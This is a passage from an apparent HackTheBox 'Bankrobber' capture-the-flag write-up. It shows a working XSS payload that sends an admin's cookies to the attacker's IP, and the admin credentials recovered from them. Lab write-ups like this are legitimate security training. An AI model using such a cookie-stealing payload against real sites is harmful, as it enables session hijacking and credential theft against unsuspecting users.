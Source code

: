 If the target is vulnerable, the admin should contact my server to fetch for `hook.js` once he's browser loads my malicious transfer request. 


After sending the transfer reqeust I wait a sec, then get a connection to my server:

![get-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/get-15.png)


The target is vulnerable! 


From here, I modify my payload to get the contents of the admin's cookies using:

```html
<script>var i=new Image;i.src="http://10.10.14.89/?"+document.cookie;</script>
```

Which works:

![loot-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/loot-16.png)


Base64 decoding the cookies returns `admin : Hopelessromantic`. I use the creds and login to the admin panel:
